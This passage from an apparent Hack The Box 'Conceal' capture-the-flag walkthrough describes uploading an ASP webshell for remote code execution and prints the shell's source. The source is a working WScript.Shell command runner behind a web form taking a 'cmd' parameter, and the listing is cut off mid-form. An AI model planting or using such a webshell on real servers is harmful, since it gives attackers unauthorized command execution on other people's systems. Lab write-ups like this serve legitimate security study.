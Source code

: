![](/images/hackthebox/conceal/15.png)
<br> Great ! I uploaded an `asp` shell to get remote code execution : 
![](/images/hackthebox/conceal/16.png)
<br> `shell.asp` : 
```
<!--
ASP Webshell
Working on latest IIS 
Referance :- 
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
http://www.w3schools.com/asp/
-->


<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
```
